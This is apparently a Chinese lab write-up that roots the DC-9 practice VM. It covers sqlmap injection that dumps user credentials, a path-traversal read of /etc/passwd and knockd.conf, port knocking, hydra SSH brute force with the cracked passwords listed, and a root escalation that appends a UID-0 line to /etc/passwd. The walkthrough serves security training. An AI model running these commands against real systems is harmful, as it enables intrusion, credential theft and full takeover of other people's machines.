



本次学习的是DC-9靶机，涉及到端口扫描，目录扫描，文件包含，端口敲门服务，sql注入，hydra爆破，sudo之脚本提权，openssl生成hash值
信息收集
查看靶机ip：
1 | arp-scan -l |
端口扫描
1 | nmap -sV -p- 192.168.130.150 |
目录扫描
1 | dirsearch -u 192.168.130.150 -i 200 |
这次好像没有啥有用的文件，那就登录web端看看有没有攻击点
在manage这里发现了有个登录页面，抓包然后用sqlmap爆破
1 | sqlmap -u http://192.168.130.150/manage.php --data="username=1&password=1" --batch |
爆破无果，只能尝试其他点
SQL注入
在search页面发现有搜索栏，输入sql注入的万能密码测试
1 | 1' or 1=1# |
全部内容都回显了，大概率是存在注入的，继续用sqlmap跑
1 | sqlmap -u http://192.168.130.150/results.php --data="search=1" --batch |
存在延迟注入和联合注入，那我们就查找当前数据库：--current-db
1 | sqlmap -u http://192.168.130.150/results.php --data="search=1" --batch --current-db |
查找到当前数据库：staff，继续查表
1 | sqlmap -u http://192.168.130.150/results.php --data="search=1" --batch -D "Staff" -tables |
两个表，但我们应该需要Users表，继续查找字段：
1 | sqlmap -u http://192.168.130.150/results.php --data="search=1" --batch -D "Staff" -T "Users" -columns |

查找出有用的字段：username和password，把这两个字段的内容输出：
1 | sqlmap -u http://192.168.130.150/results.php --data="search=1" --batch -D "Staff" -T "Users" -C "Username,Password" --dump |
找到admin的密码，不过被md5加密了，到在线网站解密：https://www.somd5.com/
856f5de590ef37314e7c3bdf6f8a66dc-transorbital1
使用账号密码登录web端：
注意到左下角有file does not exist，盲猜存在文件包含，添加参数file=/etc/passwd
遗憾的是并没有回显内容，多次测试后发现有文件包含，只不过存在目录穿越
1 | http://192.168.130.150/manage.php?file=../../../../../../etc/passwd |
接下来尝试把file换成一句话木马，然后通过niginx服务器的日志文件拿下web服务
1 | /var/log/nginx/access.log |

很遗憾这里这样做行不通，并不能像dc-5那样操作
我们刚才在nmap扫端口的时候应该注意到了ssh的端口是filtered的状态，即认定服务端对ssh端口开启了防火墙，那我们需要尝试把这个端口给打开，这里利用到了端口敲门
端口敲门（Port Knocking）是一种安全措施，它通过在防火墙上动态打开端口来允许合法用户访问受保护的服务。具体来说，端口敲门技术要求用户在尝试连接到SSH服务之前，按照预定义的顺序访问一系列隐藏端口。这种技术通过在网络层添加额外的验证步骤，有效地隐藏了实际的服务端口，并减少了被暴力破解的风险。
端口敲门的工作原理
- 预定义端口序列：管理员设定一组特定的端口序列，例如，访问端口1111、2222和3333，顺序和时间间隔都非常重要。
- 防火墙配置：防火墙初始配置为拒绝所有进入的SSH连接请求。
- 敲门事件：用户在尝试SSH连接之前，必须按照正确的顺序和时间间隔访问预定义的端口序列。
- 防火墙规则更新：当防火墙检测到正确的端口敲门序列时，它会暂时开放SSH端口（如22端口），允许该用户的IP地址连接SSH服务。
- 连接和关闭：用户成功连接SSH后，防火墙可以设置为在一段时间后自动关闭SSH端口，以恢复安全状态。
所以我们就需要找到这个端口序列，端口序列通常置于/etc/knockd.conf文件下，我们利用目录遍历查看其内容
1 | http://192.168.130.150/manage.php?file=../../../../etc/knockd.conf |
只需要按顺序访问这三个端口即可：7469,8475,9842，可以使用knock命令，也可以用nc
1 | apt install knockd |
或者：
1 | nc 192.168.130.150 7469 |
其实刚才我们sqlmap注入的时候只查看了当前数据库即web中的，但我们没查看是否还有其他数据库
下面就开始查找其他数据库的信息，换成--dbs：
1 | sqlmap -u http://192.168.130.150/results.php --data="search=1" --batch --dbs |
把所有账号密码打包到一个文件
然后把竖线和空格去掉，分别写入username和password文件里面：
1 | awk -F '|' '{print $2}' a.txt | tr -d ' ' > username.txt |
hydra爆破
然后使用hydra爆破：
1 | hydra -L username.txt -P password.txt 192.168.130.150 ssh |
有三个账号都可以登录，一个一个尝试：
[22][ssh] host: 192.168.130.150 login: chandlerb password: UrAG0D![22][ssh] host: 192.168.130.150 login: joeyt password: Passw0rd[22][ssh] host: 192.168.130.150 login: janitor password: Ilovepeepee
1 | ssh chandlerb@192.168.130.150 |
前两个用户都没有找到提权的信息，但在janitor用户找到一个隐藏文件
这里学习下这三个命令的不同之处：
接下来查看隐藏文件内容：
1 | ls -a |
1 | BamBam01 |
这里看起来像账号和密码，把它们全加入到刚才生成的username和password文件，然后再用hydra跑一下
又跑出来一个账号密码：[22][ssh] host: 192.168.130.150 login: fredf password: B4-Tru3-001，用这个登录ssh
1 | ssh fredf@192.168.130.150 |

SUDO提权
查看该用户拥有的权限：
1 | sudo -l |
有一个脚本，查看下内容：

不好全是乱码，还是执行下吧！
1 | sudo /opt/devstuff/dist/test/test |
没法执行，但给了个提示：test.py，发现该文件在/opt/devstuff/目录下
1 | cd /opt/devstuff/ |
查看其内容：
1 | cat test.py |
1 | fredf@dc-9:/opt/devstuff$ cat test.py |
所以只能往里面传2个参数，2个参数应该都是文件名，把第一个文件的内容以追加方式写进第二个文件里。
那我们可以创建一个带root用户信息的文件a.txt，然后把文件a.txt写入/etc/passwd文件，然后切换用户就可以拿到root权限了。
openssl哈希
linux自带openssl可以进行哈希计算，用法：openssl passwd [-算法] [-salt 自定义盐值] "你的密码"
1 | openssl passwd 123456 |
/etc/passwd文件中各字段的含义：用户名:密码哈希:UID:GID:描述信息:家目录:登录Shell
把生成的hash及其它字段写入一个文件中：
1 | admin:Bidkpd0ZFlcfI:0:0::/root:/bin/bash |
然后执行fred用户具有root权限的命令test，第二个参数a.txt，第三个参数/etc/passwd，然后切换到我们写入/etc/passwd的用户admin
拿到root，最后寻找flag即可：
1 | find / -name *flag* |
参考文章：
https://www.cnblogs.com/leyilea/p/18300512#%E7%AB%AF%E5%8F%A3%E6%95%B2%E9%97%A8%E6%9C%8D%E5%8A%A1
https://blog.csdn.net/sinat_28521487/article/details/140043851
- 问君能有几多愁？恰似一江春水向东流